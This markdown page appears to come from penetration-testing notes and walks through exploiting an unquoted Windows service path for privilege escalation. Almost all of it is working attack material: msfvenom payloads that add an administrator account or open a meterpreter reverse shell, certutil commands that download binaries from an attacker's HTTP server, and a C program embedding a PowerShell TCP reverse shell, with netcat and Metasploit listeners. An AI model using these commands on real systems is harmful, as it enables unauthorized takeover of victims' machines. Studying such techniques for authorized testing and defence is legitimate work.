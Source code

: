 ```yaml
---
legal-banner: true
---
```


### **Exploiting insecure service with Metasploit**

1.  Create a binary to add a user to the Administrators group with `msfvenom`:  
    `msfvenom -p windows/x64/exec CMD='net localgroup Administrators [USERNAME] /add' -f exe > common.exe`  
    
    ![](../../../../img/Windows-Environment/95.png)

2.  Host the binary using Python HTTP server and transfer it with `certutil`:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/common.exe common.exe`

    ![](../../../../img/Windows-Environment/96.png)

3.  Move the binary into the vulnerable path:  
    `move common.exe "C:\Program Files\Unquoted Path Service\"`

    ![](../../../../img/Windows-Environment/97.png)

4.  Run the service to trigger the exploit:  
    `net start unquotedsvc`  
    
    ![](../../../../img/Windows-Environment/98.png)

    **Note:** If `SeShutdownPrivilege` is enabled, you can reboot to restart the service automatically:  
    `shutdown /r /t 0`

### **Generating reverse shell with msfvenom**

1.  Create a reverse shell binary with `msfvenom`:  
    `msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe LHOST=[ATTACKER-IP] LPORT=[PORT] -o unquotedpathservice.exe`  
    
    ![](../../../../img/Windows-Environment/99.png)
    
2.  Host the binary using Python HTTP server and transfer it with `certutil`:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/unquotedpathservice.exe unquotedpathservice.exe`  
    
    ![](../../../../img/Windows-Environment/100.png)
    
3.  Copy the reverse shell to the vulnerable path and rename it to match the first valid segment of the unquoted path:  
    `copy C:\Temp\unquotedpathservice.exe "C:\Program Files\Unquoted Path Service\Common.exe"`  
    
    ![](../../../../img/Windows-Environment/101.png)
    
4.  Start a listener on the attacker machine:  
    `msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT [PORT]; run"`  
    
    ![](../../../../img/Windows-Environment/102.png)

    **Note:** Alternatively, start a Netcat listener:  
    `sudo rlwrap -cAr nc -lvnp 1338`
    
5.  Start the service on the target to execute the exploit:  
    `net start unquotedsvc`  
    
    ![](../../../../img/Windows-Environment/103.png)

    **Note:** If `SeShutdownPrivilege` is enabled, reboot to restart the service automatically:  
    `shutdown /r /t 0`

### **Creating a custom exploit**

1.  Create a C file (`exploit.c`) on your attacker machine with the following code:  

    ```c
    #include <windows.h>
    #include <stdio.h>
    
    int main(){ 
        system("powershell.exe -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('[IP-ADDRESS]',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\"");
        return 0; 
    }
    ```
    
    ![](../../../../img/Windows-Environment/104.png)
    
2.  Compile the exploit using `mingw-w64`:  
    `x86_64-w64-mingw32-gcc exploit.c -o common.exe`  
    
    ![](../../../../img/Windows-Environment/105.png)

    **Note:** If `mingw-w64` is not installed:  
    `apt install mingw-w64`
    
3.  Host the binary using Python HTTP server and transfer it with `certutil`:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/common.exe common.exe`  
    
    ![](../../../../img/Windows-Environment/106.png)
    
4.  Move the binary to the vulnerable path:  
    `move common.exe "C:\Program Files\Unquoted Path Service\"`  
    
    ![](../../../../img/Windows-Environment/107.png)
    
5.  Start a listener and execute the service:  
    ```
    sudo rlwrap -cAr nc -lvnp 1337
    net start unquotedsvc
    ```  
    
    ![](../../../../img/Windows-Environment/108.png)
    
    **Note:** If `SeShutdownPrivilege` is enabled, reboot to restart the service automatically:  
    `shutdown /r /t 0 /f`